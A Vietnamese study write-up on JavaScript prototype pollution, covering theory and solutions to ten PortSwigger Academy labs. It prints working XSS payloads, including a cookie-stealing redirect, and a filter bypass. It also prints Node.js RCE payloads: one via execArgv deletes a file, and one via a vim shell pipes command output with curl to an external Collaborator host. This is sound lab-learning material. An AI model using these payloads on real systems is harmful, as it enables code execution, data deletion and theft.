

# Khái niệm
\- Là một lỗ hổng trong đó một hàm Javascript ghép (merge) các đối tượng (object) chứa thuộc tính do người dùng kiểm soát vào thẳng đối tượng có sẵn 

\- `__proto__` thường được hiểu là đường truy cập tới prototype của đối tượng

**Phân biệt giữa prototype và property:**

\- Prototype (khuôn mẫu) không phải là property (thuộc tính) thường

\- Ví dụ: 
```
const user = {
    name: "wiener"
};
```

&rarr; `name` là thuộc tính của `user`

\- Nhưng khi truy cập thuộc tính không tồn tại, như `isAdmin`, JS không dừng lại ở việc tìm kiếm trên `user.isAdmin`

\- Hệ thống tiếp tục tìm tiếp trên prototype:
user

-> user.\_\_proto\_\_

-> Object.prototype

-> null

\- Nếu có `Object.prototype.isAdmin` = true thì:

- `user.isAdmin` = true
- `user.hasOwnProperty("isAdmin")` = false

\- **Tổng quát:** JS làm như sau
- Đối tượng obj có sở hữu thuộc tính x không
- Không có thì hỏi obj.\_\_proto\_\_
- Không có thì hỏi tiếp prototype phía trên, trên nữa
- Nếu null thì trả undefined

**Vì sao Prototype Pollution nguy hiểm:**

\- Attacker không cần sửa từng object, chỉ cần sửa prototype chung. Ví dụ:
- `Object.prototype.evil` = true
- Nhiều object khác sẽ tự thừa kế giá trị đó 

\- `JSON.parse()` coi \_\_proto\_\_ là một key bình thường. Nếu ứng dụng ghép đối tượng gốc với json parsed, prototype pollution thành công

\-  Ví dụ:

```javascript
const parsed = JSON.parse('{"__proto__":{"nguyen":"test"}}');

parsed.hasOwnProperty("__proto__"); // true
```

&rarr; Ở bước này chưa nhất thiết pollute. Nó chỉ tạo object có own property tên \_\_proto\_\_.

- App merge:
`merge(target, parsed);`
- Cách merge kiểu: `target[key] = value`
- Hoặc đệ quy như: `target[key][nestedKey] = nestedValue`
- Ví dụ: `target["__proto__"]["nguyen"] = "test"`
- Kết quả: `Object.prototype.nguyen = "test"`

&rarr; Pollute thành công `Object.protype`, trong đó thuộc tính:  
`nguyen = "test"`

# Sources, sink và gadget
## Sources
\- Là đầu vào do người dùng kiểm soát, cho phép thêm các property tùy thích vào object prototype

1. Prototype pollution qua URL

- Ví dụ: `https://vulnerable-website.com/?__proto__[evilProperty]=payload`

- Kết quả: `targetObject.__proto__.evilProperty = 'payload';`

\- Javascript engine coi \_\_proto\_\_ như đầu vào cho prototype. 

\- Từ đó `evilProperty` trả về prototype object, sử dụng mặc định `Object.prototype`, các đối tượng khác sẽ kế thừa `evilProperty` trừ khi có key riêng

2. Prototype pollution thông qua đầu vào JSON

\- Đối tượng do người dùng kiểm soát bắt nguồn từ `JSON.parse()`

\- Nó coi bất kì key nào cũng là một đối tương JSON như một chuỗi hợp lệ
```json

{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

&rarr; Đối tượng sẽ có thêm một thuộc tính là `__proto__`
## Sink

\-  Là một hàm hoặc yếu tố DOM (DOM element) mà ta có thể truy cập thông qua lỗ hổng PP. Khi này ta có thể chạy lệnh JS bất kì

## Gadgets 

\- Là công cụ trả về khai thác thực tế từ lỗ hổng. Đó là các thuộc tính
- Được sử dụng một cách không an toàn, đưa vào sink mà không qua bộ lọc
- Attacker kiểm soát được thông qua PP, đối tượng kế thừa thuộc tính độc hại được thêm vào

**Ví dụ về công cụ prototype pollution:**
\- Thư viện nhận config object: 
```javascript
const config = {};
```

\- Sau đó lấy option kiểu:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
```

\- **Ý nghĩa:**
- Nếu `config.transport_url` có giá trị -> dùng nó
- Nếu không có -> dùng `defaults.transport_url`
- Vấn đề là `config.transport_url` không chỉ tìm thuộc tính riêng trên config. JavaScript sẽ tìm theo prototype chain
- Cuối cùng object vẫn kế thừa từ Object.prototype

\- Sau đó, thư viện dùng giá tị này để tạo script:
```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

\- Nếu attacker pollute được: `Object.prototype.transport_url = "//evil-user.net";`       
thì script thành `<script src="//evil-user.net/example.js"></script>`

\- Hoặc sử dụng `data:,alert(1);//`, code nối suffix thành `data:,alert(1);///example.js`

&rarr; DOM XSS

# Setup DOM Invader

\- Bước 1: Tại thành URL, bấm vào mục Extension sau đó bấm vào logo Burp Suite


\- Bước 2: Tại mục Main settings, bật DOM Invader và bấm vào bánh răng cưa



\- Bước 3: Bấm All để quét qua toàn bộ sink



\- Bước 4: Mục Attack type, bật Prototype pollution



# Labs

## Lab 01


<details>
    <summary>searchLoggerConfigurable.js</summary>

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

</details>

\- Sink: `script.src`

\-  `config` giờ đây đã có thuộc tính riêng (own property): `transport_url = false` 

&rarr; Ta không thể pollute được thuộc tính trên

\- Điểm yếu nằm ở API browser/JS:

```javascript
Object.defineProperty(config, 'transport_url', {
    configurable: false,
    writable: false
});
```
  
\- `Object.defineProperty()` nhận argument thứ 3 là property descriptor. Descriptor có thể có các
field như:

```
{
   value: "...",
    writable: true,
    configurable: true,
    enumerable: true
}
```

\- Ở đây descriptor object không có thuộc tính riêng `value`. Nhưng JavaScript khi đọc descriptor vẫn có
thể nhìn lên prototype chain.

**Khai thác:**

\- Ta pollute trực tiếp trên URL: `__proto__[value]=data:,alert(1);`



## Lab 02


<details>
    <summary>searchLogger.js</summary>

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

</details>

\- Sink `script.src`

\- Điểm khác biệt so với Lab 1 nằm ở chỗ, thuộc tính `transport_url` không được set giá trị cố định trong đối tượng `config`

\- Payload: `__proto__[transport_url]=data:,alert(1);`



## Lab 03


<details>
    <summary>searchLoggerAlternative.js</summary>

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

</details>

\- Sink: `eval()`

\- `jquery_parseparams.js` split key bằng dấu `.`

\- Khi này payload khi paste lên URL trang web sẽ tự động thêm vào đằng sau số 1

\- Để cú pháp javascript hợp lệ, cần thêm dấu `-` vào cuối payload

\- **Payload:** `__proto__.sequence=alert(1)-`



## Lab 04



<details>
    <summary>searchLoggerFiltered.js</summary>

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```
</details>

\- Sink: `script.src`

\- Key split: `][`

\- Có bộ lọc các từ khóa như `constructor, __proto__, prototype`

\- **Payload:** `__pro__proto__to__[transport_url]=data:,alert(1)`



## Lab 05



\- Trong bài lần này, đề gợi ý sử dụng DOM Invader do gadget khá khó để tìm thấy 

\- Bật DOM Invader, refresh web và đợi nó chạy, kết quả tại mục DOM:


- DOM Invader chèn canary, JS đưa canary này vào document.cookie
- document.cookie được đọc, ghi nhiều lần

&rarr; DOM Invader đang theo dõi document.cookie nhưng mới chứng minh được flow: source -> cookie, chưa thực thi JS

\- Tại mục **Messages**, ta thấy có thông báo


- Ta bấm Send (CTRL + Enter)

\- Quay lại phần DOM, ta nhận được thêm một sink mới: `setTimeout` đi kèm nút exploit


- Bấm Exploit, nhận thấy payload đang là `alert(1)`
- Sửa mọi `alert(1)` thành `alert(document.cookie)`

**URL chứa sink, thành công trigger XSS:** 
```
https://0a6e008b03709c3b80c58a8300a90094.web-security-academy.net/?constructor[prototype][hitCallback]=alert%28document.cookie%29&constructor.prototype.hitCallback=alert%28document.cookie%29&__proto__.hitCallback=alert%28document.cookie%29&__proto__[hitCallback]=alert%28document.cookie%29&constrconstructoructor[prototype][hitCallback]=alert%28document.cookie%29&constrconstructoructor.prototype.hitCallback=alert%28document.cookie%29&__pro__proto__to__.hitCallback=alert%28document.cookie%29&__pro__proto__to__[hitCallback]=alert%28document.cookie%29#constructor[prototype][hitCallback]=alert%28document.cookie%29&constructor.prototype.hitCallback=alert%28document.cookie%29&__proto__.hitCallback=alert%28document.cookie%29&__proto__[hitCallback]=alert%28document.cookie%29&constrconstructoructor[prototype][hitCallback]=alert%28document.cookie%29&constrconstructoructor.prototype.hitCallback=alert%28document.cookie%29&__pro__proto__to__.hitCallback=alert%28document.cookie%29&__pro__proto__to__[hitCallback]=alert%28document.cookie%29
```

\- Craft một payload JS chính thức và gửi cho nạn nhân:

```javascript
<script>location="https://0a6e008b03709c3b80c58a8300a90094.web-security-academy.net/?constructor[prototype][hitCallback]=alert%28document.cookie%29&constructor.prototype.hitCallback=alert%28document.cookie%29&__proto__.hitCallback=alert%28document.cookie%29&__proto__[hitCallback]=alert%28document.cookie%29&constrconstructoructor[prototype][hitCallback]=alert%28document.cookie%29&constrconstructoructor.prototype.hitCallback=alert%28document.cookie%29&__pro__proto__to__.hitCallback=alert%28document.cookie%29&__pro__proto__to__[hitCallback]=alert%28document.cookie%29#constructor[prototype][hitCallback]=alert%28document.cookie%29&constructor.prototype.hitCallback=alert%28document.cookie%29&__proto__.hitCallback=alert%28document.cookie%29&__proto__[hitCallback]=alert%28document.cookie%29&constrconstructoructor[prototype][hitCallback]=alert%28document.cookie%29&constrconstructoructor.prototype.hitCallback=alert%28document.cookie%29&__pro__proto__to__.hitCallback=alert%28document.cookie%29&__pro__proto__to__[hitCallback]=alert%28document.cookie%29"</script>
```



&rarr; Thành công solve lab

## Lab 06



\- Lab lần này được gắn với Prototype Pollution thông qua JSON input

\- Dùng DOM Invader quét thử trang web một lượt thì ko tìm thấy sink và gadget nào hết

\- Sau khi đăng nhập, ta được đưa đến giao diện xác minh thông tin cá nhân:



\- Bấm Submit, ta thu được một request:


- Thuộc tính `isAdmin` được trả về mang giá trị false
- Ta sẽ chèn thêm thuộc tính `__proto__`, bên trong chứa key là `isAdmin` mang giá trị true



$\implies$ Thành công prototype pollution thông qua JSON input

\- Reload trang web và xóa carlos:



## Lab 07



### Docs
\- Với Lab lần này, phần lí thuyết có đề cập đến 3 cách phát hiện lỗ hổng mà không cần polute các trường có sẵn, ví dụ "username", "city", "isAdmin",...
- Status code override
- JSON spaces override
- Charset override

\- Trực quan và dễ thực hiện nhất chính là JSON space override. Trong đó, sau khi pollute, ta vào mục Raw để xác nhận lỗ hổng:


- Với space là 1, rất rõ ràng rằng các trường được lùi sát vào lề bên trái

&rarr; Thành công solve lab

## Lab 08



\- Thực hiện đăng nhập, bấm Submit để nhận request POST đến `/my-account/change-address`

\- Thực hiện pollute, nhưng lần này có vẻ server đã lọc `__proto__`. Ta sẽ chèn thuộc tính `constructor`, rồi gọi đến thuộc tính con `prototype` rồi mới pollute thuộc tính mà ta cần để leo quyền admin



\- Xóa carlos


&rarr; Thành công solve lab

## Lab 09



\- Lần này, ta tiếp tục pollute thông qua request tới `/my-account/change-address`

\- Sử dụng payload:

```json

"__proto__":{
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
- `__proto__` là một key đặc biệt trong JS, backend Node.js merge JSON không an toàn sẽ tạo nên property mới, đi vào prototype của object
- `execArgv` là option của Node.js/child_process.fork(). Đồng thời nó là mảng các argument (đối số) truyền cho Node executable của child process
- `--eval=` là một flag của Node.js, nó bảo Node thực thi JS code trực tiếp từ CLI
- `.execSync()` chạy shell command đồng bộ, ví dụ `require('child_process').execSync('id')` sẽ chạy: `$(id)`
- `rm /home/carlos/morale.txt`: OS command để solve lab

**Chain đầy đủ:**
  1. JSON được gửi vào endpoint vulnerable.
  2. Backend deep-merge body.
  3. Key `__proto__` làm pollute `Object.prototype`.
  4. `Object.prototype.execArgv` được set thành mảng chứa `--eval=...`.
  5. Sau đó admin job gọi `child_process.fork(..., {}, hoặc options object thiếu execArgv)`.
  6. `fork()` đọc `options.execArgv`.
  7. Do `options` không có own `execArgv`, nó lấy inherited `Object.prototype.execArgv`.
  8. Node child process chạy với `--eval`.
  9. `--eval` execute JS payload.
  10. JS payload gọi `child_process.execSync()`.
  11. `execSync` chạy command OS.
  12. File `/home/carlos/morale.txt` bị xóa.






## Lab 10



\- Lab cuối cùng có đôi nét tương tự Lab 09, khi ta cần pollute key, thực thi JS và RCE. Nhưng khác một điểm, ta cần đọc được nội dung file, bằng cách ép server gửi nó qua webhook/Burp Collaborator

\- Tiếp tục với request POST đến `/my-account/change-address`, xác nhận một lần nữa rằng lỗ hổng vẫn xảy ra ở đây

### Docs


- Trong đó command bắt đầu sau `:!`
- Cần xuống dòng `\n` để nhận lệnh và thực thi shell

### Payload

```json
"__proto__": {
    "shell":"vim",

    "input":":!id | curl -X POST --data-binary @- http://hi3qzmlx4smx3qk4nsdooymei5owcu0j.oastify.com\n"
}
```

\- Pollute 2 thuộc tính shell và input, rồi gửi request POST đến `/admin/jobs`, ta được:



**Lưu ý:** Nếu response trả về progress meter mặc định của curl thì chứng tỏ ta đã thành công exfiltrate dữ liệu



&rarr; Thành công RCE

\- Tiếp tục với command `ls /home/carlos`, ta có:



&rarr; Đã đi đến những bước cuối cùng, chuỗi cần tìm chắc chắn nằm trong `/home/carlos/secret`

\- Sử dụng command: `cat /home/carlos/secret`



$\implies$ Bấm Submit solution và solve lab 